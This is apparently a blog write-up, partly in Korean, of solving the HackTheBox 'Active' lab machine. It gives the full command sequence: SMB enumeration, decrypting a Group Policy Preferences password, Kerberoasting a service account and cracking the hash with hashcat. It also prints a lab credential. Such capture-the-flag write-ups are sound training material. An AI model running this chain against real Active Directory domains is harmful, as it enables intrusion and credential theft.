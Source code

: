 ```yaml
---
layout: post
title: HackTheBox Active
subtitle: Acitive Directory 101 Active Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Active/8055314e6eefbca8ad4a0d558519c82c_MD5.jpeg)
crackmapexec enum 검색
smbclient 접속 -> get filename (정책포함 총2개)
passwordcrack (GPP)
해당 계정으로 smb 접근후 플래그 취득
커버로스팅 시도
어드민비번 13100 해쉬캣
smb 

## Target - 10.129.157.36
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.157.36 -oN Active_allport
```
![](/assets/images/posts/2025-03-04-Active/dfa394a533f243c0477ade6179f61f1a_MD5.jpeg)
### SMB Enum (No Auth)
```bash
# 비로그인으로 공유 폴더 권한 보기
crackmapexec smb 10.129.157.36 -u '' -p '' --shares

# Replication 재귀로 다 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider Replication --regex .

smbclient //10.129.157.36/Replication
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
get Groups.xml
```

![](/assets/images/posts/2025-03-04-Active/524e9fb03a7a4ff6798850d2e3a43c27_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/c3a8ad49223654f2cc332332957dfad1_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/504f36a387817853d0ccbd67b19e9963_MD5.jpeg)

### Password Crack [Group Policy Preferences]
> What's GPP : 그룹 정책을 통해 도메인에 연결된 머신을 구성할 수 있으며 각 머신들은 DC에 주기적으로 연결(로그인)하여 정책을 동기화 한다. GPP의 기능 중 로컬 관리자 계정에 대한 암호를 설정하는 기능이 Groups.xml 파일의 cpassword 필드를 구성하는데, 이 부분이 공격 당하는 것이다.
   
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![](/assets/images/posts/2025-03-04-Active/c211b63404c6e1dd891c7d23ee15387c_MD5.jpeg)

### SMB Enum (SVC_TGS Auth)
```bash
smbclient //10.129.157.36/Users -U SVC_TGS --password=GPPstillStandingStrong2k18
cd SVC_TGS\Desktop\
get user.txt
```
![](/assets/images/posts/2025-03-04-Active/9901ddabe40586df2182bb843283cea2_MD5.jpeg)

### Kerber Roasting
```bash
sudo impacket-GetUserSPNs -request -dc-ip 10.129.157.36 active.htb/SVC_TGS
```
![](assets/images/posts/2025-03-04-Active/f505e174d4732184c33027531a5aa061_MD5.jpeg)

### Hash Crack
```bash
hashcat -m 13100 Admin.hash /usr/share/wordlists/rockyou.txt
```
![](assets/images/posts/2025-03-04-Active/21faac5d9bd90c1d7e46960752d567b6_MD5.jpeg)
### SMB Enum (Administrator Auth)
```bash
smbclient //10.129.157.36/Users -U Administrator --password=
cd Administrator\Desktop\
get root.txt
```
## End
![](/assets/images/posts/2025-03-04-Active/de95368feb71382f1c35a682dc077a0b_MD5.jpeg)